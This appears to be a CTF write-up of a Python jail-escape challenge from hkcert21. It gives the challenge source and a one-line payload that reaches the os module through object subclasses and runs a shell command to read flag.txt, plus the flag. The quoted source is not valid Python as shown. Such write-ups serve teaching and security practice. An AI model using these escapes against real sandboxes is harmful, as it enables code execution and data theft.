 ## All missing (pwn 150 pts)  
### Challenge:  
You lose all the things, including the chance of getting out of the jail of python.

```source-shell
nc chalp.hkcert21.pwnable.hk 28004
```
chall.py
```
backup_eval = eval
backup_print = print

input = input()
if '[' in input or ']' in input:
	# print('[You failed to break the jail]')
	# exit(-1)
    
backup_eval = eval
backup_print = print

globals()['__builtins__'].__dict__.clear()
backup_print(backup_eval(input,{},{})) 
```
### Solution:  
First of all for pyjail1, after some researches I completed with below libraries suggested by this reference (https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#finding-dangerous-libraries-loaded). The final payload is below leveraging <class '_frozen_importlib._ModuleLock'>: ().__class__.__base__.__subclasses__().pop(80).__init__.__globals__.pop('sys').modules.pop('os').system('cat flag.txt')
  
Flag: `hkcert21{nev3r_uSe_pYth0n_45_sanDBox}`  
  
